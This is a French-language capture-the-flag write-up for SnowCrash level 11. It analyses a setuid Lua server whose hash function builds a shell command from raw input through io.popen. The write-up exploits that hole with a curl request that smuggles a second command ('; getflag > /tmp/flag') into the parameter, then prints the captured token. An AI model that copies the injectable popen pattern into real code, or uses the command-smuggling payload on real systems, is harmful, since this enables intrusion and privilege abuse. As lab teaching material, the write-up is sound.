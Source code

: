 # LEVEL XI
```
level11@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```
Executé avec les droits de flag11... mais que contient donc `level11.lua` ?
```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept() -- Il s'agit d'un serveur web
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)
	  -- En dessous de ce point il n'y a rien a exploiter
	  -- Que le hash soit correct ou non on n'aura pas plus d'info
	  -- L'exploit doit donc se trouver dans la fonction hash()
      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```
En faisant quelques tests en local pour se familiariser avec le Lua on comprend que la variable l est le paramètre de l'URL:
```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

while 1 do
  local client = server:accept()
  local l, err = client:receive() -- l = parametre de l'URL
  if not err then
      print("trying " .. l) -- concatenation de 2 strings
  end
  client:close()
end
```
```
/tmp >>> curl '127.0.0.1:5151'                                            
trying GET / HTTP/1.1
curl: (52) Empty reply from server
/tmp >>> curl '127.0.0.1:5151?test'                                   [52]
trying GET /?test HTTP/1.1
curl: (52) Empty reply from server
```

En revenant sur le programme principal on remarque l'appel à la `popen` dans la fonction `hash()`, permettant d'appeler le programme sha1sum du systeme.
```
hash($x) = `echo $x | sha1sum` 
```
On va s'en servir pour injecter une commande dans le pipe.
```
level11@SnowCrash:~$ curl '127.0.0.1:5151?coucou; getflag > /tmp/flag'
Password: Erf nope..
level11@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```
On a le flag, `fa6v5ateaw21peobuub8ipe6s` :tada:
